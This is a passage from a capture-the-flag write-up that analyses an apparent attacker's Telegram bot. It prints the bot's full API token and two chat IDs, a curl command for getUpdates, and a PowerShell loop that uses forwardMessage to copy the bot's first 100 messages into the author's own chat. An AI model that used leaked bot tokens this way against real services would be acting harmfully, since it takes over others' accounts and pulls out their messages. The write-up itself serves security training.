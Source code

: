 The next step is to forward the messages to my chat. However, first, I need to send a message to the bot. After that, let's retrieve my chat ID by running the following command:

`curl “https://api.telegram.org/bot{bot-token}/getUpdates”`

![](../images/wwctf2024/chatid.jpg)

Now, we have the following information that will help forward the messages to me:

- Bot API : `7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q`
- Attacker Chat ID : `-4528960795`
- My Chat ID : `938182349`

I’ve created this script to retrieve the first 100 messages the bot has received and forward them to us. You can adjust the number of messages as needed, but I’ve limited it to the earliest messages to avoid issues with players abusing the API by sending large volumes of messages.

```powershell
 1..100 | ForEach-Object { Invoke-WebRequest -Uri "https://api.telegram.org/bot7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q/forwardMessage" -Method POST -ContentType "application/json" -Body ('{"from_chat_id":"-4528960795", "chat_id":"938182349", "message_id":' + $_ + '}') }
 ```

I received several messages in my chat with the bot, including one containing a GitHub repository with a base64-encoded name.
